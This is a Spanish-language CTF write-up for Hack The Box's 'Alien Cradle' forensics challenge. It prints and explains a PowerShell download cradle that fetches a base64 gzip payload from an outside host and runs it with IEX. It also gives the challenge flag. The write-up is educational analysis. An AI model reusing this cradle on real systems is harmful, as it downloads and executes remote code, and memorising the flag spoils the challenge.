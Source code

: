 ```yaml
---
layout: single
title: Alien Cradle - CTF HTB Cyber Apocalypse 2023
excerpt: "Este es el segundo desafío forense del evento Cyber Apocalypse 2023 de Hack The Box. Se considera de dificultad very-easy y se nos proporciona un script de PowerShell pseudo-ofuscado que contiene la flag del desafío"
date: 2023-03-18
classes: wide
header:
  teaser: /assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - ctf
  - forense
tags:  
  - powershell
---
```


![](/assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg)

**Dificultad:** very-easy

## Enunciado

_En un intento de que los extraterrestres encontraran más información sobre la reliquia, lanzaron un ataque dirigido a los amigos cercanos y socios de Pandora que pueden conocer información secreta al respecto. Durante un incidente reciente que se cree que fue operado por ellos, Pandora localizó un extraño script de PowerShell de los registros de eventos, también llamado soporte de PowerShell. Estos scripts generalmente se usan para descargar y ejecutar la siguiente etapa del ataque. Sin embargo, parece ofuscado y Pandora no puede entenderlo. ¿Puedes ayudarla a desofuscarlo?_

## unzip - cat - echo - tr

Se nos entrega un archivo llamado "forensics_alien_cradle.zip" el cual en su interior posee un script de PowerShell llamado `cradle.ps1`.

Los archivos .ps1 se utilizan para almacenar y ejecutar secuencias de comandos de PowerShell de manera que puedan ser reutilizados y ejecutados de forma repetitiva. Los scripts de PowerShell pueden contener una serie de instrucciones, llamadas a cmdlets (comandos de PowerShell), funciones personalizadas y lógica de programación para automatizar tareas, manipular datos, administrar sistemas y más.
```
❯ unzip -l forensics_alien_cradle.zip
Archive:  forensics_alien_cradle.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      618  2023-03-06 12:29   cradle.ps1
---------                     -------
      618                     1 file

```
Luego de descompimir el achivo procedemos a verificar el contenido de `cradle.ps1`, el cual se ve de la siguiente manera:

```
❯ cat cradle.ps1

if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};
$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');
$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));
$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

A modo de información el script `cradle.ps1` realiza las siguientes acciones:
  - Verifica si el nombre de usuario actual no es 'secret_HQ\Arth' utilizando `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name.` Si el nombre de usuario no coincide, el script se detiene y finaliza la ejecución.
  - Crea una nueva instancia de `net.webclient` con `$w = New-Object net.webclient`.
  - Descarga el contenido de una URL específica utilizando `$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64')`. La URL se construye concatenando las cadenas separadas por el simbolo `+`.
  - Crea una nueva instancia de `IO.MemoryStream` utilizando `[Convert]::FromBase64String($d)` para decodificar el contenido descargado en base64.
  - Define una cadena indetificada como `$f` con el valor `'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'`.
  - Utiliza `IO.StreamReader` y `IO.Compression.GzipStream` para descomprimir el contenido del archivo descargado. A continuación, utiliza `ReadToEnd()` para leer todo el contenido descomprimido.
  - Finalmente, se utiliza `IEX` (Invoke-Expression) para ejecutar el contenido obtenido en el paso anterior.

Resulta bastante sencillo encontrar la flag, ya que está declarada dentro del script como valor de la variable `$f`. En este caso, se utiliza el método de ofuscación de concatenación de cadenas. Para desofuscar el mensaje, procedemos a utilizar el siguiente comando:
```
❯ echo "'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}" | tr -dc '[:alnum:]{}_'
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}  
```

`tr -dc '[:alnum:]{}_'` : El comando `tr` en Linux es una herramienta que se utiliza para realizar operaciones de traducción o transliteración de caracteres en un flujo de texto. El nombre "tr" es una abreviatura de "translate" (traducir). En este caso se esta utilizando con el argumento `-d` para eliminar caracteres y `-c` para especificar los caracteres que queremos mantener. `'[:alnum:]{}_'` especifica que se deben mantener los caracteres alfanuméricos ([:alnum:]), los corchetes ({}) y los guiones bajos (\_). Los demás caracteres se eliminarán.

## Flag

**HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}**
